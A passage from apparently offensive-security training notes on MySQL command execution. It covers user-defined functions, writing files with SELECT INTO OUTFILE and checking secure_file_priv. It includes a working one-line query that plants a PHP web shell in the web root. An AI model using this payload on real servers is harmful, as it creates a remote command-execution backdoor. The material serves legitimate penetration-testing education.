 `MySQL` supports [User Defined Functions](https://dotnettutorials.net/lesson/user-defined-functions-in-mysql/) which allows us to execute C/C++ code as a function within SQL, there's one User Defined Function for command execution in this [GitHub repository](https://github.com/mysqludf/lib_mysqludf_sys). It is not common to encounter a user-defined function like this in a production environment, but we should be aware that we may be able to use it.
{% endhint %}

***

### <mark style="color:blue;">Write Local Files</mark>

`MySQL` does not have a stored procedure like `xp_cmdshell`, but we can achieve command execution if we write to a location in the file system that can execute our commands. For example, suppose `MySQL` operates on a PHP-based web server or other programming languages like ASP.NET. If we have the appropriate privileges, we can attempt to write a file using [SELECT INTO OUTFILE](https://mariadb.com/kb/en/select-into-outfile/) in the webserver directory. Then we can browse to the location where the file is and execute our commands.

<mark style="color:green;">**MySQL - Write Local File**</mark>

{% code fullWidth="true" %}
```shell-session
mysql> SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';

Query OK, 1 row affected (0.001 sec)
```
{% endcode %}

In `MySQL`, a global system variable [secure\_file\_priv](https://dev.mysql.com/doc/refman/5.7/en/server-system-variables.html#sysvar_secure_file_priv) limits the effect of data import and export operations, such as those performed by the `LOAD DATA` and `SELECT … INTO OUTFILE` statements and the [LOAD\_FILE()](https://dev.mysql.com/doc/refman/5.7/en/string-functions.html#function_load-file) function. These operations are permitted only to users who have the [FILE](https://dev.mysql.com/doc/refman/5.7/en/privileges-provided.html#priv_file) privilege.

`secure_file_priv` may be set as follows:

* If empty, the variable has no effect, which is not a secure setting.
* If set to the name of a directory, the server limits import and export operations to work only with files in that directory. The directory must exist; the server does not create it.
* If set to NULL, the server disables import and export operations.

In the following example, we can see the `secure_file_priv` variable is empty, which means we can read and write data using `MySQL`:

#### <mark style="color:green;">**MySQL - Secure File Privileges**</mark>

```shell-session
mysql> show variables like "secure_file_priv";

+------------------+-------+
| Variable_name    | Value |
+------------------+-------+
| secure_file_priv |       |
+------------------+-------+

1 row in set (0.005 sec)
```
